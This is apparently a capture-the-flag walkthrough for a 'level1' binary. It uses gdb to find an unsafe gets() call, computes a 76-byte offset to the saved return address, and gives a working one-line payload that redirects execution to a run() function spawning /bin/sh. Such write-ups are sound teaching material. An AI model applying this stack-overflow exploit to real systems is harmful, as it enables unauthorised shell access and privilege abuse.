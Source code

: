 ```bash
gdb ./level1
```

> Use __set disassembly-flavor intel__ command to set the intel syntax.

```gdb
disass main
```

```gdb
Dump of assembler code for function main:
   0x08048480 <+0>:	    push   ebp
   0x08048481 <+1>:	    mov    ebp,esp
   0x08048483 <+3>:	    and    esp,0xfffffff0
   0x08048486 <+6>:	    sub    esp,0x50
   0x08048489 <+9>:	    lea    eax,[esp+0x10]
   0x0804848d <+13>:	mov    DWORD PTR [esp],eax
   0x08048490 <+16>:	call   0x8048340 <gets@plt>
   0x08048495 <+21>:	leave
   0x08048496 <+22>:	ret
End of assembler dump.
```

After check the man of the *gets* function, note the section *BUGS*:

```man
Never use gets().  Because it is impossible to tell without knowing the data in ad‐
vance  how  many  characters  gets() will read, and because gets() will continue to
store characters past the end of the buffer, it is extremely dangerous to use.   It
has been used to break computer security.  Use fgets() instead.

For  more  information, see CWE-242 (aka "Use of Inherently Dangerous Function") at
http://cwe.mitre.org/data/definitions/242.html
```

Check the [suggested link](https://cwe.mitre.org/data/definitions/242.html) talking of __overflow__.

Do some research to find this [buffer overflow](https://en.wikipedia.org/wiki/Buffer_overflow) ressource.

Because the address where to write given in argument to the *gets* function is pointing on the stack frame, the exploit we have to use is a [stack buffer overflow](https://en.wikipedia.org/wiki/Stack_buffer_overflow) (link finded from the previous one).

We want to overflow the stack frame part allowed for local variable to the return address (eip register) of the current *main* function for jump to where we want instead of returning where the *main* function was called from.

Find somewhere to jump by checking functions:

```gdb
info functions
```

```gdb
All defined functions:

Non-debugging symbols:
0x080482f8  _init
0x08048340  gets
0x08048340  gets@plt
0x08048350  fwrite
0x08048350  fwrite@plt
0x08048360  system
0x08048360  system@plt
0x08048370  __gmon_start__
0x08048370  __gmon_start__@plt
0x08048380  __libc_start_main
0x08048380  __libc_start_main@plt
0x08048390  _start
0x080483c0  __do_global_dtors_aux
0x08048420  frame_dummy
0x08048444  run
0x08048480  main
0x080484a0  __libc_csu_init
0x08048510  __libc_csu_fini
0x08048512  __i686.get_pc_thunk.bx
0x08048520  __do_global_ctors_aux
0x0804854c  _fini
```

Look what's in the *run* function:

```gdb
disass run
```

```gdb
Dump of assembler code for function run:
   0x08048444 <+0>:	    push   ebp
   0x08048445 <+1>:	    mov    ebp,esp
   0x08048447 <+3>:	    sub    esp,0x18
   0x0804844a <+6>:	    mov    eax,ds:0x80497c0
   0x0804844f <+11>:	mov    edx,eax
   0x08048451 <+13>:	mov    eax,0x8048570
   0x08048456 <+18>:	mov    DWORD PTR [esp+0xc],edx
   0x0804845a <+22>:	mov    DWORD PTR [esp+0x8],0x13
   0x08048462 <+30>:	mov    DWORD PTR [esp+0x4],0x1
   0x0804846a <+38>:	mov    DWORD PTR [esp],eax
   0x0804846d <+41>:	call   0x8048350 <fwrite@plt>
   0x08048472 <+46>:	mov    DWORD PTR [esp],0x8048584
   0x08048479 <+53>:	call   0x8048360 <system@plt>
   0x0804847e <+58>:	leave
   0x0804847f <+59>:	ret
End of assembler dump.
```

Note the call to the *system* function.

```man
The system() library function uses fork(2) to create a child process that executes the shell command specified in command using execl(3).
```

Check what is given as an argument to the *system* function:

```gdb
x/s 0x8048584
```

```
0x8048584:	 "/bin/sh"
```

So call this *run* function is what we want, because it gives use the access to the shell with the rights for the *level1* binary.

Have to point the return address (eip register) saved in the stack of the the *main* function to this *run* function.

Let's check how many byte need to write in the stack to access to the return address:

```
b *0x08048490
run
x $esp
info frame
```

```
...
0xbffff5e0:     0xbffff5f0
...
 Saved registers:
  ebp at 0xbffff638, eip at 0xbffff63c
```

Here the __esp__ register (before the call of the *gets* function using the break) points to *0xbffff5f0* and the return address (__eip__ saved register) is saved at *0xbffff63c*.

Compute the difference between these two addresses to know how many byte have to write for access to the saved return address in the stack.

> esp - saved eip = 0xbffff63c - 0xbffff5f0 = 3221222972 - 3221222896 = __76 bytes__

To overwrite the saved eip return address, the input need to have a length of 76 bytes followed by the value we want (here the *run* function address).

> The address value need to be reversed because the stack is writed from the top to the bottom, and next it's readed in the opposite way (from the bottom to the end).

```bash
(echo -e "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x44\x84\x04\x08" ; cat) | ./level1
```

> "\x44\x84\x04\x08" is the reversed *run* function address (initially 0x __08048444__).

> Use __cat__ to keep stdin open.